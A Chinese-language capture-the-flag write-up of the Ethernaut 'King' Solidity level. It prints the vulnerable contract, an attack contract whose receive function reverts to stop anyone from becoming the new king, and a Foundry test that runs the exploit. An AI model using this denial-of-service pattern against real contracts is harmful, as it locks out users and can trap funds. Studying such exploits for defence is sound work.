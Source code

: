 # Foundry 通关 Ethernaut（8）— King

参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

阻止用户通过发送大于prize 的 value 成为 king (永远滴 king 哈哈哈)

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

1. 三个状态变量：地址类型的 king, uint256 的 prize，地址类型的 owner

2. contructor: 初始化三个状态变量，owner 和 king 都为合约部署者，prize 为部署时转入的value

3. receive : 合约接收到转账且 calldata 为空时触发，当转账值大于当前的 prize 或者 调用者 为 owner 时：

   a. 将转账值发送给当前 king

   b. 更新 king 为当前调用者

   c. 更新 value 为当前转账值

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

## 思路

合约的本身很有意思，初始化了一个king, 然后每当接收的转账大于当前 prize ，就把这个钱转给上一个 king ，然后这个转账人成为下一个king,等待下一个大于prize 的转账，很类似于某些模式

这里要求阻止 新king的更新，由于 在更新前有一个转账操作，我们可以尝试将king设置为一个 合约地址，然后再转账后，在合约的receive/fallback函数进行一些操作，比如直接抛出异常，阻止更新

## foundry 复现

### 1. 攻击合约

```solidity
contract Attack {
    address payable public kingAddress;

    constructor(address payable _address){
        kingAddress = _address;
    }
    
    function attack() public payable{
        kingAddress.call{value: msg.value }("");
    }

    receive() external payable { 
        revert();
    }
}
```

要点：

1. attack 函数：首先进行函数调用，使当前合约地址成为一轮 king
2. receive ： 当后续有人向目标合约转账时，则触发本攻击合约（king）的receive函数抛出异常，阻止更新king值

### 2. 测试脚本

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {Test, console} from "forge-std/Test.sol";
import {King,Attack} from "../src/King.sol";

contract KingTest is Test {
    King public king;
    Attack public attackContract;
    address public attacker = address(0x123);
    address public user = address(0x456);

    function setUp() external {
        king = new King{value:0.1 ether}();
        payable(attacker).transfer(1 ether);
        payable(user).transfer(1 ether);
        vm.prank(attacker);
        attackContract = new Attack(payable(address(king)));
    }

    function test_attack() public {
        console.log("before",king._king());
        // 切换到 攻击者更改king为攻击合约
        vm.prank(attacker);
        attackContract.attack{value: 0.2 ether}();
        console.log("after attack",king._king());
        // 攻击后，普通用户正常出价，更改 king 失败
        vm.prank(user);
        address(king).call{value: 0.5 ether}("");
        console.log("after user",king._king());
    }
}
```

### 3. 测试

终端输入

```solidity
forge test --match-path test/King.t.sol -vvvv
```

![image-20240908232745726](../pict/image-20240908232745726.png)

我们可以看到，在 攻击之后，普通用户即使出价更改也不能再改变 king 值

因此，所有合约都要防止 转账地址为合约地址，防止攻击者可以利用 fallback 和 receive 写入恶意逻辑

